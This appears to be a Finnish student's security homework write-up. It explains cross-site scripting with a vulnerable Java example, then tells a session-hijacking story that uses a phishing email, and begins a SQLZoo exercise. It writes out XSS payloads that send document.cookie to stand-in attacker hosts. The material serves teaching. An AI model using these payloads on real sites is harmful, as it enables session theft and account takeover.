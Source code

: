     - Esim (DOM XSS): Haavoittuva verkkosovellus tulostaa verkkosivulle html-koodinpätkän ilman validaatiota:

        `(String) page += "<input name='creditcard' type='TEXT'
        value='" + request.getParameter("CC") + "'>";`
    
        Hyökkääjä muokkaa http-kutsun 'CC'-parametriä:

        `'><script>document.location=
        'http://www.attacker.com/cgi-bin/cookie.cgi?
        foo='+document.cookie</script>'.`

        Tämän avulla hyökkääjä saa verkkosovelluksen lähettämään uhrin sessio-ID:n hyökkääjän ylläpitämälle sivustolle, joka mahdollistaa uhrin käyttäjäsession kaappamisen.

## y) Cross-site story


Hyökkääjä löytää verkosta sivuston, jonka eräällä sivulla on hakukenttä. Hyökkääjä testaa hakukentän haavoittuvuutta yksinkertaisella keinolla: hän syöttää hakukenttään arvoksi yksinkertaisen javascript-ohjelman:

        <script>alert('Hyökkäys toimii!')</script>

Tämän jälkeen hyökkääjä submitoi hakuterminsä, jolloin sivusto suorittaa hyökkääjän koodin ja selain luo popup-ikkunan jossa on hyökkääjän viesti. Hyökkäys näyttää siis toimivan.

Hyökkääjä pääsee siis hakukentän avulla suorittamaan omaa koodiaan. 

Hyökkääjällä on käytössään lista haavoittuvan sivuston käyttäjien sähköposteista sekä palvelin, jota hän voi käyttää hyökkäyksessään.
Hyökkääjä päättää varastaa sivuston käyttäjien sessiokeksit. Sitä varten hän valmistelee autenttisen näköisen sähköpostin, ja spooffaa lähettäjän nimen muistuttamaan haavoittuvan sivuston osoitetta.

Hyökkääjä sisällyttää sähköpostiinsa linkin, joka muistuttaa paljon haavoittuvalle sivustolle ohjaavaa linkkiä. Linkki on ohjaa suoraan haavoittuvan sivuston hakukenttään, jonka hakutermiksi on asetettu javascript-ohjelma, joka lähettää käyttäjän sessiokeksin hyökkääjän palvelimelle. Ohjelma voi olla esimerkiksi tämän kaltainen:

    <script>new Image().src="http://hyokkaajan-sivusto.ru/image.php?output="+document.cookie;</script>

Hyökkääjän palvelin poimii sessiokeksin talteen. Hyökkääjä ottaa yhden vastaanottamistaan keksien session ja käyttää sitä väärentääkseen käyttäjäsession haavoittuvalla sivustolla. Tällöin hyökkääjä pääsee käyttämään sivustoa varastamansa käyttäjän roolissa. 


## a) SQLZoo

### 0) Select basics

1. Tämä on yksinkertainen tehtävä, jossa muutetaan SQL-skriptissä kyselyn `name`-arvoa. Ratkaisu on yksinkertainen: